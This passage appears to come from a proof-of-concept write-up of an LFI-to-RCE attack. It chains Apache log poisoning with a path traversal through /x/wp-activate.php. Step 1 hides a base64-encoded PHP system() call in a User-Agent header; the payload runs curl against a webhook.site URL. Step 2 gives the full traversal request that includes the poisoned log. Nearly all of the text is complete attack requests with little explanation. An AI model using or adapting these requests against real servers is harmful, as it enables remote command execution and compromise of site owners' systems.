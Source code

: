 #### Step 1

Send a request with PHP code placed in the `User-Agent` header

```http {hl_lines=[3]}
GET / HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu;<?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?> Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```

#### Step 2

Send a request with the LFI payload pointing to `/var/log/apache2/other_vhosts_access.log`

```http
GET /x/wp-activate.php/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/%2f/%2e%2e/var/log/apache2/other_vhosts_access.log? HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
Content-Length: 0
```

**Result**:

{{< figure src="result2.png" caption="Successful LFI => RCE result" >}}

**Explanation**:

```phtml
<?php system(base64_decode('Y3VybCAtSSAnaHR0cHM6Ly93ZWJob29rLnNpdGUvYmFjN2UxNjMtYjQ3NS00MzIzLWEzMTUtYWNkMDEwMzU5NjQwJw==')); ?>
```
